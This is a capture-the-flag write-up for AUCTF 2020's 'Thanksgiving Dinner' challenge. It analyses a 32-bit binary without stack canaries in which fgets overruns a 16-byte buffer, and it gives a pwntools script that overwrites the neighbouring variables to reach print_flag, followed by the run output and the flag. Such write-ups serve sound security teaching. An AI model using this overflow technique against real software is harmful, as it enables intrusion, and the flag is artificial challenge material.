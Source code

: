 # AUCTF 2020

## Thanksgiving Dinner

> 408
> 
> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
> 
> `nc challenges.auctf.com 30011`
>
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
>
> [turkey](turkey)

Tags: _pwn_ _bof_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, look for buffer overflow first.

#### Decompile with Ghidra, cutter.re, r2, etc...

```
void vulnerable(void)
{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

`fgets` will read 35 (0x24 - 1) characters into `local_30` overrunning local_20 - local10.  The required conditions to get the flag are pretty clear.


### Exploit

#### Code

```
#!/usr/bin/env python3

from pwn import *

payload  = 16 * b'A'
payload += p32(0x2a)
payload += p32(0x0)
payload += p32(0x667463)
payload += p32(2**32 - 0x14 - 1)
payload += p32(0x1337)

#p = process('./turkey')
p = remote('challenges.auctf.com', 30011)
p.recvuntil('got!\n\n')
p.sendline(payload)
p.stream()
```

#### Output

```
# ./exploit.py
[x] Opening connection to challenges.auctf.com on port 30011
[x] Opening connection to challenges.auctf.com on port 30011: Trying 157.245.252.113
[+] Opening connection to challenges.auctf.com on port 30011: Done
Wait... you aren't supposed to be here!!
auctf{I_s@id_1_w@s_fu11!}
```

#### Flag

```
auctf{I_s@id_1_w@s_fu11!}
```
